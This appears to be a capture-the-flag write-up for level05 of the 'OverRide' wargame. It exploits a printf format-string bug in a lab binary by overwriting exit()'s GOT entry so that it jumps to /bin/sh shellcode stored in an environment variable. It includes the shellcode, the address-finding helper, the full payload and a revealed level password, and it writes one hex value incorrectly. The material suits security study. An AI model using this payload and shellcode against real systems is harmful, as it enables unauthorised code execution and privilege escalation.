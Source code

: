 # Level 05

Once logged in, you will see a binary.

```
$ ssh 164.92.144.154 -p 4242 -l level05
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level05@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$ ls
level05
```

Okay, let's run the program

```
level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$ ./level05
AAAAAAAAAAAAAaaaaaaaaaaaAAaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level05@OverRide:~$
```

So by looking at the execution result of the program, two things can be observed,
- the uppercase alphabets will be turned into lower cases alphabets
- if the length of input exceeds, the output will only print 99 characters

By looking at the decompiled source (or with the gdb), the function uses the `printf`, so there is a chance for using format string attack.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

In above, the call for `exit()` is used, and we can overrite the exit() in the GOT(Global Offset Table) section.

To find the GOT address of exit, the following command needs to be proceed:

```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
level05@OverRide:~$
```

We now have an address for exit, `0x080497e0`, we need to provide a payload that overwrites a shellcode.

```
# a shellcode
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

# store create payload that stores shellcode

export PAYLOAD=$(python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

```

With the shellcode stored into the environment variable, a program can be writeen to access the address of the shellcode

```
# /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	printf("env address: %p\n", getenv(argv[1]));
	return (0);
}
[...]
level05@OverRide:/tmp$ gcc -m32 getenv.c -o getenv  # for 32bit
level05@OverRide:/tmp$ ./getenv PAYLOAD
env address: 0x7fffffffebbd

### remember, the env. variable will change of the execution point, so let's run the program on different location ###
level05@OverRide:~$ /tmp/getenv PAYLOAD
0xffffdefd
```

We now have address we want(=`exit`) to overwrite: `0x080497e0`, with the address of the stack `0xffffdefd`

Because the address too big, we overwrite the target 2 bytes each time. (the first 4 bytes of address can be ignored)

for the first 2 bytes, we input the data `0xdefd - 0x8 = 0xebb5(57077)` (because what the payload will prit out is 8 bytes=> XXXX that creates the offset of the printf already, and each address is 4 bytes XXXXXXX), then we overwrite the next two bytes `0xffff - 0xdefd = 0x2102 (8450)`

let's try out

```
level05@OverRide:~$ echo $(python -c 'from struct import pack; print(pack("I", 0x080497e0) + pack("I", 0x080497e2) + "%57077u%10$hn" + "%8450u%11$hn")') | ./level05
[...]
[...]
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
level05@OverRide:~$
```
